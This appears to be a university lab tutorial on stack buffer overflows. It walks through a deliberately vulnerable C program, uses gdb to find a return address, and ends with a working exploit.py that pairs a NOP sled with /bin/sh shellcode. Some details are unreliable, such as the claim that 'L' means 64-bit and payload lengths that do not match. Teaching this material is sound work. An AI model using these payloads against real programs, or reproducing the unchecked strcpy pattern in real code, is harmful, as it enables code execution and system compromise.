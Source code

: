 # Buffer Overflows
This is a tutorial of Stack Buffer Overflow attacks. Credit to 'Smashing The Stack For Fun And Profit by Aleph One' 
for a detailed description of how to do this and Manuel Egele megele@bu.edu for creating the challenge 
(specifically providing prog5.c and the template for how to create exploit.py).

Author: Chase Clarke cfclarke@bu.edu


# prog5.c source
```
//compile with $ gcc prog5.c -o prog5

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

//check the string passed from the command-line and print message accordingly. Vulnerable program


int processInput(char *input)
{		
		char buffer[512];

		strcpy(buffer,input);

		printf("Hello, what is the magic word?: You said %s\n",buffer);

		/* check if the string is equal to the super secret string */

		if (strcmp(buffer,"Please please pretty please!")==0)
		{
				fprintf(stdout,"Woaaaa, you got it!\n");
		}
		else
		{
				fprintf(stdout,"Epic Fail! Epic Fail! Epic Fail! Epic Fail!\n");
		}

		/* great success! */
		return 0;
}

//program accepts two parameters, there is a simple buffer overflow...

int main(int argc, char **argv)
{
		//check arguments
		if (argc<2)
		{
				fprintf(stdout,"Synopsis: vuln1 <magic word>\n\n");
				exit(1);
		}

		//process the input
		processInput(argv[1]);

		return 0;
}
  
```

# Prog5 Stack


Stack after 'processInput' is called but before stack pointer returns to main:


Towards BOTTOM of stack - TOP of memory

```
	.           .     
	.           .     
	.           .     

	|           |
	|           |
	  ---------       =
	|           |     |
	|           |     |
	  ---------    vars passed into program
	| *input    |     |
	|           |     |
	  ---------       =
	| return    |
	| addr.     |
	  --------- 
	| EBP       |
	|           |
	  ---------       
        | ESP       |     
	|           |     
	  ---------       =
	|           |     |
	|           |     |
	         	local variables
	|           |     |
	| buffer    |     |
	    		  
	.           .     
	.           .     
	.           .     
```


Towards TOP of stack - BOTTOM of memory




So ===> 512 bytes for buffer, 8 bytes for stack and base pointers, 
	and the final 4 bytes for overwriting the return address 
	to main.


Now that you have an idea of what the stack looks like and where the stored eip pointer (return address to main) 
is stored, you are going to need code that opens a new shell.
A shell script is assembly built to open a new shell encoded so python can print it correctly.

The shell code I used: (source - http://shell-storm.org/shellcode/files/shellcode-811.php)
	
	To make this as simple as possible, I used code from 'shell storm' instead of writing my own.

	* note that this shell code only works on Linux x86 systems. Find your systems code on shell-storm.org *
	* more on shell code: https://en.wikipedia.org/wiki/Shellcode *

	code used:	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2
			\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff



The last bit of information you need to collect is a new return address to replace the stored eip pointer.

You can get this using gdb:
	This is a tricky part because the address on the stack could change at any time if, for instance, any 
	environment variables change or the size of anything in your program changes.


Running gdb without the worry of environment variables:
	
	$ env - gdb prog5                    - clears most env vars. O/w stack cluttered and addresses constantly change

		(gdb) show env               - show remaining environment variables.
 
  		(gdb) unset env VARNAME      - remove one of the remaining set env vars
 
		(gdb) show env               - one last time to ensure all environment variables are removed


Helpful notes for using gdb:
	to run or rerun your program:
		(gdb) r "input_here"

	Set breakpoint:
		(gdb) b *main+offset - example: b *main+78

	delete breakpoint:
		(gdb) delete [breakpoints] [range...]


	print first 500 addresses stored on stack:
		(gdb) x/500xw $esp


	(gdb) info frame         - gives where your instruction pointer is at
	(gdb) info registers     - gives the values contained in all of your registers


Now that you have the program running correctly in gdb, you need to:
	
	Use the above notes to set a breakpoint the instruction before instructionProcess returns.
	
	Look at the stack at that time.
	
	Find an address that points directly back into your nops (no operation instruction in x86 assembly).

	Save that address and use it as your new return address to replace the stored eip pointer.


Taking into account all the above, you will need 524 bytes total. 520 for buffer and stored pointers, 4 for overwriting 
the return address.

But you have one more problem. What do you do with the extra space in the buffer that is not used by your shell code?
Easy, padd it with nops. These are no operation assembly instructions that tell the system to just go to the next line. 
Encoded as '\x90'

So ===>

You can now write a python script that prints out the shell code at the correct size, padded by the nops:
```
	`python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89
		\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`
```

you can launch your new shell by running the prog5 executable with the above python script as the input:
```
	$ prog5 `python -c 'print "\x90"*492 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89
		\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x60\x4b\xff\xff"'`
```


The process of manually creating these python scripts can be tedious. 
To remedy this you can create a python file (exploit.py) shown below that requires:

	The length in bytes from the start of the buffer to the start of the return address.

	The return address you found with gdb.


// ---------- exploit.py source ------------------ //
```
#run with prog5 $(python exploit.py)

#!/usr/bin/env python

import sys, struct

#buf_len is the length of your input from the start of the buffer to the begging of the return address.
#ret_addr is the return address that brings you back into your NOPS. This will CHANGE regularly
buf_len = 520
ret_addr = 0xffff4ac0


#payload is the correctly presented shell code.
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"


#combining all the above. '<' means little-endian in the struct.pack and 'L' signifies 64 bit OS.
buf = ('\x90' * (buf_len - len(payload))) + payload + struct.pack('<L', ret_addr)

#writing to the shell
sys.stdout.write(buf)
```
